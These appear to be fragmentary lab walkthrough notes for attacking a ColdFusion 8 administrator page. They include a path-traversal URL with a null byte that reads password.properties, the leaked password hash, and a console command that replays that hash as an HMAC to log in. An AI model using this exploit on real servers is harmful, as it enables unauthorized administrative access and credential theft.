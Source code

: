 http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

 #Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 


Inspect element > console 

 console.log(hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'));

1AAD529C92A6F2F4F9468DF188057339601E1BF2



Logical Path    Directory Path 
CFIDE           C:\ColdFusion8\wwwroot\CFIDE  

